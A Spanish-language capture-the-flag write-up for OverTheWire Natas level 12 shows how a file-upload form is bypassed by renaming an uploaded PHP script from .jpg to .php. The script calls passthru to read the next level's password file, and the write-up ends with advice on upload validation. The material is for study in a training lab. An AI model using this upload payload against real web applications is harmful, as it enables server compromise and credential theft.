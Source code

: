 Al entrar al nivel vemos el mensaje `Choose a JPEG to upload (max 1KB):` junto con un formulario para subir un archivo, analizando el código vemos que se asigna un nombre de archivo aleatorio con terminación **.jpg** al archivo que subamos.

Cambiando la terminación del archivo podemos ejecutar código arbitrario desde la página, así que cargamos un archivo [script.php](https://github.com/IberoGIC/gic-level-2/blob/main/Challenges/OTW_Natas/Lvl_12/Ordenmoria/script.php) que muestre el contenido del archivo de contraseña:
```php
<?php
passthru("cat /etc/natas_webpass/natas13");
```

Una vez cargado, abrimos el Inspector en Chrome y modificamos el valor de `filename` en el formulario, cambiando la terminación a **.php**:
```html
<input type="hidden" name="filename" value="sbds37c38u.php">
```

Al dar clic en `Upload File` se nos mostrará el mensaje:
```
The file upload/sbds37c38u.php has been uploaded
```

Damos clic en el enlace al archivo, y se muestra la contraseña del nivel siguiente.

---
## **Conclusión**

El desafío demuestra las vulnerabilidades de subida de archivos en aplicaciones web y la importancia de implementar controles estrictos, como:
* Validación del tipo de archivo tanto en el cliente como en el servidor.
* Restricciones de contenido para evitar la ejecución de código malicioso.
* Almacenamiento fuera de directorios accesibles públicamente.

---
-,"  
[_P

